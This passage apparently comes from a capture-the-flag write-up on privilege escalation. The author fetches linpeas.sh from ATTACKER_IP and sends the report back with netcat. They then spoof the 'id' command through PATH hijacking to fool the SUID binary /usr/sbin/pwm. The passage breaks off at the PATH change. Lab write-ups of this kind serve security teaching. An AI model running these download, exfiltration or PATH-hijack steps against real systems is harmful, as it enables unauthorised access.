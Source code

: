 On target:
```bash
wget http://ATTACKER_IP:8000/linpeas.sh
```

Now let's make the file executable and run it:
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh > linpeas_report
```

For better readability i then transferred the report on my machine:
```bash
nc -lvnp 4445 > linpeas_report
```

On target:
```bash
nc -nv ATTACKER_IP 4445 < linpeas_report
```

It identified an unknown suid binary:: `/usr/sbin/pwm`.

If we try to run this ELF we get the message:
```
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

It tries to fetch the `.passwords` file, but we do not have it as our current user, we need a way to appear like "think".
Let's check the other user info:
```bash
id think
```
```
uid=1000(think) gid=1000(think) groups=1000(think)
```

Cool, now we create a fake `id`:
```bash
touch id
```
```bash
echo 'echo "uid=1002(think) gid=1002(think) groups=1002(think)"' > id
```

Make it executable:
```bash
chmod +x id
```

Change the PATH env variable value to the current directory:
```bash
export PATH=/tmp:$PATH
```
